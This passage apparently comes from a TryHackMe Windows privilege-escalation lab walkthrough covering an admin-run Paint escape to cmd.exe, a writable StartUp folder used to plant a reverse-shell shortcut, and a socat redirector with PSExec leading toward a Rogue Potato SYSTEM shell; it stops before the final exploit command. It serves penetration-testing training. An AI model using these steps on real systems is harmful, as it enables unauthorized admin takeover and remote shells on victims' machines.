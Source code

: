 ## Insecure GUI Apps[](https://exploitation.tymyrddin.dev/docs/thm/win-privesc#insecure-gui-apps "Permalink to this heading")

Start an RDP session as the “user” account:

rdesktop -u user -p password321 MACHINE_IP

Double-click the `AdminPaint` shortcut on the Desktop. Once it is running, open a command prompt and note that Paint is running with admin privileges:

tasklist /V | findstr mspaint.exe

In Paint, click File -> Open. In the open file dialog box, click in the navigation input and paste: `file://c:/windows/system32/cmd.exe`. Press Enter to spawn a command prompt running with admin privileges.

## Startup Apps[](https://exploitation.tymyrddin.dev/docs/thm/win-privesc#startup-apps "Permalink to this heading")

Using `accesschk.exe`, note that the `BUILTIN\Users` group can write files to the `StartUp` directory:

C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

Using `cscript`, run the `C:\PrivEsc\CreateShortcut.vbs` script which should create a new shortcut to the `reverse.exe` executable in the `StartUp` directory:

cscript C:\PrivEsc\CreateShortcut.vbs

Start a listener on Kali, and then simulate an admin logon using RDP and the credentials previously extracted:

rdesktop -u admin MACHINE_IP

A shell running as admin should connect back to your listener.

## Token Impersonation - Rogue Potato[](https://exploitation.tymyrddin.dev/docs/thm/win-privesc#token-impersonation-rogue-potato "Permalink to this heading")

Set up a socat redirector on Kali, forwarding Kali port `135` to port `9999` on Windows:

sudo socat tcp-listen:135,reuseaddr,fork tcp:MACHINE_IP:9999

Start a listener on Kali. Simulate getting a service account shell by logging into RDP as the admin user, starting an elevated command prompt (Right-click -> Run as Administrator) and using `PSExec64.exe` to trigger the `reverse.exe` executable you created with the permissions of the `local service` account:

C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe

Start another listener on Kali, and in the `local service` reverse shell triggered, run the RoguePotato exploit to trigger a second reverse shell running with `SYSTEM` privileges (update the IP address with your Kali IP accordingly):
